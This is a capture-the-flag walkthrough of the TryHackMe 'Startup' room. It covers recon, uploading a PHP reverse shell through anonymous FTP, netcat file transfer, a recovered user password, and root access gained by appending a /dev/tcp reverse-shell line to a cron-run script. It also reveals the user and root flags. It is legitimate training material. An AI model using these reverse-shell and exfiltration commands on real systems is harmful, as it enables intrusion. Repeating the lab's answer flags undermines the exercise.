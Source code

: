# Startup

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Startup](https://tryhackme.com/room/startup)
>
> ***We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root.*
>
> ![](.gitbook/assets/startup.png)

🎯 Target IP: `10.10.173.77`

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`

![](.gitbook/assets/image-20230515143244492.png)

Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```

![](.gitbook/assets/image-20230515143526046.png)

## Exploitation

Get a Meterpreter session by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell

![](.gitbook/assets/image-20230515145419274.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```

![](.gitbook/assets/image-20230515151802211.png)

Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```

![](.gitbook/assets/image-20230515152948262.png)

Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
```



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

![](.gitbook/assets/image-20230515153155071.png)

</details>

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

![](.gitbook/assets/image-20230515154046856.png)

## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```

![](.gitbook/assets/image-20230515155056052.png)

```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```





<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{f963aaa6a430f210222158ae15c3d76d}`

![](.gitbook/assets/image-20230515155220667.png)

</details>



------

